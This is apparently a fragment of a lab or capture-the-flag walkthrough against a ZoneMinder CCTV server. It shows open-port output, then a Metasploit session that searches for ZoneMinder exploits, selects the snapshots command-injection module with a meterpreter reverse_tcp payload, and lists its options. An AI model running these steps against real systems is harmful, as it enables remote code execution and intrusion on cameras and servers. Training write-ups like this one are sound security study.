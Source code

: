```
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

ZoneMinder is a free, open source Closed-circuit television software application developed for Linux which supports IP and Analog cameras.

#### EXPLOIT

```
msf6 > search ZoneMinder

Matching Modules
================

   #  Name                                                Disclosure Date  Rank       Check  Description
   -  ----                                                ---------------  ----       -----  -----------
   0  exploit/unix/webapp/zoneminder_lang_exec            2022-04-27       excellent  Yes    ZoneMinder Language Settings Remote Code Execution
   1  exploit/unix/webapp/zoneminder_snapshots            2023-02-24       excellent  Yes    ZoneMinder Snapshots Command Injection
   2  exploit/unix/webapp/zoneminder_packagecontrol_exec  2013-01-22       excellent  Yes    ZoneMinder Video Server packageControl Command Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/unix/webapp/zoneminder_packagecontrol_exec

msf6 > use 1
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/zoneminder_snapshots) > options

Module options (exploit/unix/webapp/zoneminder_snapshots):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /zm/             yes       The ZoneMinder path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


```